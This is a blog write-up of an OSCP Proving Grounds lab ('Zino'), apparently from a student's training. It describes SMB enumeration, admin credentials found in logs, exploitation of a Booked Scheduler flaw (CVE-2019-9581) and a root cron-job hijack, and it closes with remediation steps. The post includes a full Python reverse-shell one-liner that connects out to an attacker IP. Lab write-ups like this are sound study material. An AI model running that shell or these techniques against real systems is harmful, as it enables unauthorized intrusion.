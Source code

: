 ```yaml
---
draft: false
title: "Proving Grounds #1 - Zino"
date: 2023-11-28T00:55:24+00:00
author: William
category:
  - Tech
tags:
  - Linux
  - Security
  - Hacking
---
```

This was my first proving grounds lab of my OSCP. Took longer than I would have liked but I was able to pwn it in the end with a joyful fist pump and woop from my side. Any advice or comments on how I could improve this write-up would be appreciated.

#### Executive summary

The attacker was able to achieve privileged remote code execution on the target box. Issues found can be easily remediated by updating the software Booked Scheduler to V3.7.9 and restricting write permissions of a scheduled cron job.

#### Technical Findings

These are the steps I took to achieve privileged remote code execution in this lab.

Starting with a high-level scan of our target.  
![HackerImage](https://i.imgur.com/PzhTifh.png?resize=704%2C357&ssl=1#center)

Of these lets take a closer look at the smb ports  
![HackerImage](https://i.imgur.com/YU0ToTg.png?resize=760%2C532&ssl=1#center)
We see that guest is enabled on port 445. This combined with a quick enumeration of the shares using <span style="text-decoration: underline;">smbmap</span> we can log into our target using smbclient.  
![HackerImage](https://i.imgur.com/V1QmpMi.png?resize=609%2C279&ssl=1#center)

Here we find our first flag **local.txt** along with a bunch of log files.

50% DONE!!!

Of these auth.log and misc.log have some interesting contents  
![HackerImage](https://i.imgur.com/oEsCkHH.png?resize=903%2C84&ssl=1#center)

![HackerImage](https://i.imgur.com/uKg3ptK.png?resize=720%2C122&ssl=1#center)
Of these two misc.log is the most interesting as it has admin credentials in it. Ill be using this going forward.

With our initial Nmap scan we found a webserver hosted on port 8003. On closer inspection we find a login portal with the version of the hosting software listed at the bottom. After a quick lookup of this software we find the following.  
![HackerImage](https://i.imgur.com/cVRcvtR.png?resize=836%2C127&ssl=1#center)

Ill be using the seccond entry (50594.py) to exploit our target. This exploits the vulnerability CVE-2019-9581.  
![HackerImage](https://i.imgur.com/zkWQAXl.png?resize=586%2C111&ssl=1#center)With remote code execution on our host we can now leverage this into a reverse shell using a generic Python reverse shell script.

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.215",21));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")’
```

![HackerImage](https://i.imgur.com/iMu1dUe.png?resize=572%2C105&ssl=1#center)

SUCCESS. Now with the reverse shell I can start looking around for what we have access to… To save you the headache I’ll fast track to the fun part. I find an interesting entry in the cron jobs folder.  
![HackerImage](https://i.imgur.com/MGoJlKn.png?resize=807%2C384&ssl=1#center)
There right at the bottom, there is a Python script run by the cron job with root privileges. Looking at the file in question confirms that we are able to edit it.  
![HackerImage](https://i.imgur.com/hwPItPu.png?resize=705%2C38&ssl=1#center)

We write a Python script locally that will execute the generic reverse shell Python script we used earlier, but now because it will be executed in the root context we will get a root shell.

So we write the script and host it on our local HTTP server.  
![HackerImage](https://i.imgur.com/REwW9wj.png?resize=680%2C180&ssl=1#center)Fetch that puppy overwriting the cleanup.py file! And now we wait with a netcat listener.  
After a minute and a quick coffee break we come back to this beautiful sight  
![HackerImage](https://i.imgur.com/GJSys1g.png?resize=633%2C117&ssl=1#center)
SUCCESS!!!!!

The flag can be found at **cat /root/proof.txt**

Something to note is that you will run into issues if you try to use any ports other than those opened. It seems for this lab they closed all unnecessary ports in line with industry best practice.


#### Conclusion

How to fix this is quite simple. Here are 3 action times:

1. Update Booked Scheduler to 3.7.9 to prevent the initial foothold
2. Restrict write permissions on <span style="text-decoration: underline;">cleanup.py</span>
3. Ensure no user credentials are logged. And probably reroll admin and peter, using a more secure password this time ;D

All in all, this was a fun lab to start cutting my teeth on, don’t worry this is the first of many!